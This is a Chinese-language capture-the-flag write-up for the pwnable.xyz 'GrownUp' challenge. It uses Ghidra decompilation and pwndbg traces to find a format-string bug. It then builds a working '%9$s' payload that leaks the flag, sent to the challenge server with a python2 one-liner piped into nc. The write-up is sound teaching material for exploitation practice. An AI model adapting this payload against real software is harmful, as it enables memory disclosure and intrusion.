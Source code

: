 ghidra查看代码

```c
undefined8 main(void)

{
  ssize_t sVar1;
  char *__src;
  long in_FS_OFFSET;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  local_28 = 0;
  local_20 = 0;
  printf("Are you 18 years or older? [y/N]: ");
  sVar1 = read(0,&local_28,0x10);                // B
  *(undefined *)((long)&local_28 + (long)((int)sVar1 + -1)) = 0;
  if (((char)local_28 == 'y') || ((char)local_28 == 'Y')) {
    __src = (char *)malloc(0x84);
    printf("Name: ");
    read(0,__src,0x80);
    strcpy(usr,__src);
    printf("Welcome ");
    printf(usr._128_8_,usr);               // A
  }
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```



A行下断点，随便输入一些数据

```
pwndbg> b *main+233
Breakpoint 1 at 0x40094e
pwndbg> r
Starting program: /home/goevil/share/pwn/challenge_25/GrownUpRedist
Are you 18 years or older? [y/N]: y
Name: noevil
Welcome
...
───────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────
 ► 0x40094e <main+233>             call   printf@plt                      <printf@plt>
        format: 0x601168 (usr+136) ◂— 0xa7325 /* '%s\n' */
        vararg: 0x6010e0 (usr) ◂— 0xa6c6976656f6e /* 'noevil\n' */
...
```

一切正常



再输入128字节的名字看看：

```
───────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────
 ► 0x40094e <main+233>             call   printf@plt                      <printf@plt>
        format: 0x601100 (usr+32) ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
        vararg: 0x6010e0 (usr) ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
```

观察到format字符串为usr字符串偏移32的位置，可以利用格式化字符串漏洞。
而需要的flag在

![image-20220519190731040](.assets/GrownUp/image-20220519190731040.png)

因此，还需要栈上有一个指向该地址的值。

观察B行，local_28正好满足要求。



拼凑payload

| 18+？（8字节） | flag地址（8字节）                  | 名字（32字节） | 格式化字符串+padding(够长就行)<br />（为什么是第9个参数gdb调试一下就知道了） |
| -------------- | ---------------------------------- | -------------- | ------------------------------------------------------------ |
| “yyyyyyyy”     | "\x80\x10\x60\x00\x00\x00\x00\x00" | "a"*32         | "(%9$s)" + "a"*0x80                                          |



脚本：

```shell
$ python2 -c 'print "y"*8 + "\x80\x10\x60\x00\x00\x00\x00\x00" + "a"*(32)+"(%9$s)" + "a"*0x80' > input.txt
$ nc svc.pwnable.xyz 30004 < input.txt
```

